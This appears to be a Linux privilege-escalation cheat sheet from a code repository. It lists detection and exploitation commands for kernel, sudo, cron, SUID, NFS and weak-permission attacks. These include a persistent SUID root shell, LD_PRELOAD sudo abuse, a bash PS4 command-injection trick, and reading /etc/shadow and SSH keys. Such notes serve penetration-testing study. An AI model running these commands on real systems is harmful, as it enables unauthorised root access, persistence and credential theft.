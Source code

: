 Persistent root: `cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash` -> `/tmp/rootbash -p`

1. Kernel exploit:
    + Detection:
        + `uname -a`, search for exploits
        + `linux-exploit-suggester-2.pl -k KERNEL`
    + Exploitation:
        + search for exploits, compile, run

2. Service exploit:
    + Detection:
        + `ps aux | grep "^root"`
        + `<program> --version`
        + `dpkg -l | grep <program>` or `rpm -qa | grep <program>`
    + Exploitation:
        + search for exploits
        + GTFOBins

3. Weak file permissions:
    + Detection:
        + `lse.sh`
        + `/etc/shadow` R|W, `/etc/passwd` W
        + backups
    + Exploitation:
        + depending on which files are readable or writable

4. Sudo:
    + Detection:
        + `lse.sh`
        + `sudo -l`
    + Exploitation:
        + can execute ALL and known password: `sudo su`, `sudo -i`, `sudo -s`, `sudo /bin/sh`, `sudo passwd`
        + GFTOBins
        + `LD_PRELOAD` -> create `preload.so`, then `sudo LD_PRELOAD=/tmp/preload.so PROGRAM`
        + `LD_LIBRARY_PATH` -> create shared library (`ldd`), then `sudo LD_LIBRARY_PATH=LIB_PATH PROGRAM`

5. Cron jobs:
    + Detection:
        + `lse.sh`
        + `/etc/crontab`
    + Exploitation:
        + weak file permissions
        + PATH
        + wildcards in cronjob -> GTFOBins

6. SUID binaries:
    + Detection:
        + `lse.sh`
    + Exploitation:
        + search for exploits
        + GTFOBins
        + shared object injection -> create shared library (`strace -v -f -e execve <command> 2>&1 | grep exec`), then run SUID binary
        + PATH (`strace -v -f -e execve <command> 2>&1 | grep exec`, `ltrace`, `strings`, disassembly)

7. Shell features:
    + `bash` < 4.2-048 -> user defined functions with absolute path name take precedence over executable
    + `bash` < 4.4 -> bash debug mode `env -i SHELLOPTS=xtrace PS4='$(CMD)' PROGRAM`

8. Passwords and keys:
    + config files
    + history files
    + SSH keys
    + password reuse

9. NFS:
    + Detection:
        + `/etc/exports`
        + `showmount -e TARGET`
    + Exploitation:
        + `mount -o rw,vers=2 TARGET:/tmp /tmp/nfs`
        + create SUID binary, run from target
